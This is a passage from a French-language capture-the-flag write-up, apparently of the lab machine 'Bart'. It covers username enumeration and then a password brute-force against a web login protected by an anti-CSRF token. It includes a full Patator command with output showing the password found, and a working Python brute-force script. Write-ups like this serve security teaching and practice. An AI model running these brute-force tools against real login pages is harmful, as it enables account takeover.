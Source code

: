 Alors que si l'on rentre *daniel* ou *harvey* que l'on a noté plus tôt on obtient le message *An email has been sent to you with information how to reset your password.*  

So let's go brute-force ! On prépare une liste de mots de passe éventuels (à partir des infos récupérées + mots de passe courants) et on s'attaque à l'utilisateur *harvey*.  

La difficulté ici est la présence d'un token anti-CSRF sur le formulaire de login. Cela n'est pas une difficulté pour Patator du moment qu'on lui donne les bonnes options :  

```plain
devloop@kali:~$ patator http_fuzz url=http://monitor.bart.htb/index.php method=POST body="csrf=__CSRF__&user_name=harvey&user_password=FILE0" accept_cookie=1 before_urls=http://monitor.bart.htb/index.php before_egrep='__CSRF__:name="csrf" value="([0-9a-f]+)"' 0=passwords.txt -x ignore:fgrep='The information is incorrect'
14:00:35 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2018-05-26 14:00 CEST
14:00:35 patator    INFO -                                                                              
14:00:35 patator    INFO - code size:clen       time | candidate                          |   num | mesg
14:00:35 patator    INFO - -----------------------------------------------------------------------------
14:00:39 patator    INFO - 302  4218:0         1.566 | potter                             |     3 | HTTP/1.1 302 Found
14:00:39 patator    INFO - Hits/Done/Skip/Fail/Size: 1/5/0/0/5, Avg: 1 r/s, Time: 0h 0m 3s
```

On peut aussi bien sûr utiliser notre propre outil de force brute avec le trio magique requests / BeautifulSoup / re :  

```python
import re
import sys

import requests
from bs4 import BeautifulSoup

CSRF_REGEX = re.compile("[a-f0-9]{64}")

username = sys.argv[1]
wordlist = sys.argv[2]

sess = requests.session()
r = sess.get("http://monitor.bart.htb/index.php")
soup = BeautifulSoup(r.text, "html5lib")
csrf_token = CSRF_REGEX.search(r.text).group()

with open(wordlist) as fd:
    for line in fd:
        password = line.strip()

        r = sess.post(
                "http://monitor.bart.htb/index.php",
                data={
                    "user_name": username,
                    "user_password": password,
                    "action": "login",
                    "csrf": csrf_token
                },
                headers={"referer": "http://monitor.bart.htb/index.php"}
        )

        if "The information is incorrect." not in r.text:
            print("Found password {} for user {}".format(password, username))
            break

```